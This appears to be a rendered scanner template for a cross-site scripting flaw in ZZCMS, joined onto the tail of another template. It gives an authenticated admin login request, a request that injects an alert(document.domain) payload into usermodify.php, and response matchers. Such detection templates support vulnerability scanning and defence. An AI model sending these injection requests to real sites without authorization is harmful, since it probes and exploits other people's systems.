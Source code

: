 - words
  1. \<option value="/en/?{alert(1)}" selected="selected">

**Type - word**

- words
  1. text/html
- part - header

---

# ZZCMS - Cross-Site Scripting

## Description

- ZZCMS contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - zzcms,xss,authenticated

## Requests

### Step - 1

```
POST /admin/logincheck.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

admin={{username}}&pass={{password}}

```

### Step - 2

```
GET /admin/usermodify.php?id=1%22%2balert(document.domain)%2b%22 HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_2, 'text/html')
  2. status_code_2 == 200
  3. contains(body_2, "参数 1\"+alert(document.domain)+")
- condition - and

---
